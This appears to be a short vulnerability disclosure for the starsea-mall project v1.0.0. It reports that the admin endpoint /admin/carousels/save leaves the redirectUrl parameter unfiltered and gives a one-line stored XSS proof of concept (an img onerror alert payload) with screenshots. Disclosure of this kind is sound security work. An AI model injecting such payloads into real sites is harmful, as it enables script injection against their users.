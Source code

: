 target:https://github.com/StarSea99/starsea-mall
version:v1.0.0

Vulnerability details:
The system backend /admin/carousels/save interface does not filter the redirectUrl parameter, allowing attackers to insert malicious JS files and create XSS vulnerabilities
![image](https://github.com/user-attachments/assets/a0be70bd-edcf-4e1c-a371-8558bbcb4e9a)
poc:<img/src=1 onerror=alert(1)>
![image](https://github.com/user-attachments/assets/0e473552-1b74-49f6-8bac-b1c85dd74d66)
successed
![image](https://github.com/user-attachments/assets/256d0b90-07c2-408b-91a0-1d2499d9f557)

